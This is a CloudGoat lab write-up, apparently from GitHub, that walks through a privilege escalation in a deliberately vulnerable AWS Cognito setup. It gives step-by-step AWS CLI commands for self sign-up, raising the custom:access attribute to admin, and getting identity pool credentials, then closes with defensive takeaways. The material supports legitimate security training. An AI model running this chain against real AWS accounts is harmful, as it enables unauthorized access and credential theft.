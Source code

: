 # 🛠️ CloudGoat vulnerable Cognito Writeup

## ⚡ TL;DR

We exploit a misconfigured AWS Cognito environment by signing up through a vulnerable User Pool, retrieving an access token, and leveraging it to escalate privileges via custom attributes. This access allows us to assume roles in an Identity Pool and retrieve temporary AWS credentials—facilitating lateral movement or privilege escalation within the environment.

---

## 🎯 Initial Access

apigateway_url = "https://xxxx.execute-api.us-east-1.amazonaws.com/vulncognito/cognitoctf-cgid730b6h5u8m/index.html"
cloudgoat_output_aws_account_id = "xxxx"
---

## 🧽 Step-by-Step Exploitation

### 🔍 Step 1: Reconnaissance & Initial Access

The application is hosted at:

```
https://xxx.execute-api.us-east-1.amazonaws.com/vulncognito/cognitoctf-cgid730b6h5u8m/index.html
```

Upon visiting the site, we find login and sign-up functionality. Attempting to sign up reveals a filter: only emails ending in `@ecorp.com` are accepted.

![image](https://github.com/user-attachments/assets/3b46f796-feb5-4178-aaa2-93e161c5e2e3)

Trying to sign up:

![image (1)](https://github.com/user-attachments/assets/c04436b5-742f-4b4a-8b58-0e3c08800bf9)

Inspecting the page source, we find credentials hardcoded in JavaScript:

```js
UserPoolId: 'us-east-1_mSaMI1nQ1',
ClientId: '24m03titp7v5d0eli306vqimto',
```

This gives us what we need to begin interacting with AWS Cognito via CLI.

---

### ✉️ Step 2: User Registration via AWS CLI

Using the `ClientId`, we attempt to register:

```bash
aws cognito-idp sign-up \
  --client-id 24m03titp7v5d0eli306vqimto \
  --username test@test.com \
  --password 'Test1@test.com' \
  --user-attributes Name=email,Value=test@test.com Name=given_name,Value=test Name=family_name,Value=test
```

Response:

```json
{
  "UserConfirmed": false,
  "CodeDeliveryDetails": {
    "Destination": "t***@t***",
    "DeliveryMedium": "EMAIL",
    "AttributeName": "email"
  },
  "UserSub": "d4a84488-c001-705a-8fb9-164a987e4a4e"
}
```

We confirm the user:

```bash
aws cognito-idp confirm-sign-up \
  --client-id 24m03titp7v5d0eli306vqimto \
  --username test@test.com \
  --confirmation-code <CODE_FROM_EMAIL>
```

---

### 🧰 Step 3: Authentication & Access Token Retrieval

Login now redirects us to a new page:

![image (2)](https://github.com/user-attachments/assets/0bde252f-7b19-4e5e-a3cd-1524122c12d2)

We use **Burp Suite** to intercept the login and capture our **access token**.

![cognito](https://github.com/user-attachments/assets/c5952bd1-b17a-40d1-97cb-655119f81765)


We validate the token via:

```bash
aws cognito-idp get-user --access-token <ACCESS_TOKEN>
```

Which reveals:

```json
"custom:access": "reader"
```

This custom attribute seems to control access levels.

---

### ⬆️ Step 4: Privilege Escalation via Attribute Modification

We attempt to elevate our privileges by modifying the `custom:access` attribute:

```bash
aws cognito-idp update-user-attributes \
  --access-token <ACCESS_TOKEN> \
  --user-attributes '[{"Name":"custom:access","Value":"admin"}]'
```

The update is successful. We now potentially have admin-level access.

---

### 🧺 Step 5: Linking to Identity Pool

With elevated privileges, we now attempt to get temporary AWS credentials by linking the token to the Cognito Identity Pool:

```bash
aws cognito-identity get-id \
  --region us-east-1 \
  --identity-pool-id us-east-1:a96c9f79-324c-c9d1-3de8-ec55221338c8 \
  --logins '{"cognito-idp.us-east-1.amazonaws.com/us-east-1_mSaMI1nQ1":"<ACCESS_TOKEN>"}'
```

Returns:

```json
"IdentityId": "us-east-1:a96c9f79-324c-c9d1-3de8-ec55221338c8"
```

Now we request credentials:

```bash
aws cognito-identity get-credentials-for-identity \
  --region us-east-1 \
  --identity-id us-east-1:a96c9f79-324c-c9d1-3de8-ec55221338c8 \
  --logins '{"cognito-idp.us-east-1.amazonaws.com/us-east-1_mSaMI1nQ1":"<ACCESS_TOKEN>"}'
```

We receive:

```json
"AccessKeyId": "ASIA...",
"SecretKey": "xxxxx",
"SessionToken": "xxxxx",
"Expiration": "2025-06-04T21:43:26-04:00"
```

---

### 🧰 Step 6: Configure and Verify Access

We configure a new AWS CLI profile with our credentials:

```bash
aws configure --profile cognito
```

Then verify access:

```bash
aws sts get-caller-identity --profile cognito
```

Output:

```json
{
  "UserId": "AROA2S3E7PEZIU2AWMXNC:CognitoIdentityCredentials",
  "Account": "727671863602",
  "Arn": "arn:aws:sts::727671863602:assumed-role/cognito_authenticated-cgid730b6h5u8m/CognitoIdentityCredentials"
}
```

---

### 🔎 Step 7: Enumerating Permissions with Pacu

We use [Pacu](https://github.com/RhinoSecurityLabs/pacu) to discover the permissions tied to the assumed role:

```json
"Permissions": {
  "Allow": [
    "sts:GetCallerIdentity",
    "dynamodb:DescribeEndpoints",
    "lambda:ListFunctions",
    "lambda:ListEventSourceMappings",
    "lambda:ListLayers",
    "lambda:GetAccountSettings",
    "s3:ListBuckets"
  ],
  "Deny": []
}
```

While limited, these permissions still provide actionable access to several services including **Lambda**, **S3**, and **DynamoDB**.

---

## 🧠 Key Takeaways

- **Client IDs and User Pool IDs** hardcoded in frontend JavaScript are a major security risk.
- **Attribute update policies** must be tightly controlled—especially for custom fields like `custom:access`.
- **Identity Pool trust relationships** should strictly validate user claims and access levels.

---

## 🐻 Conclusion

This exploitation chain demonstrates how seemingly benign AWS Cognito misconfigurations can lead to privilege escalation, credential exposure, and lateral movement across an AWS account. Secure your Cognito implementation by:

- Removing sensitive config from frontend apps
- Restricting attribute updates
- Locking down identity pool trust policies

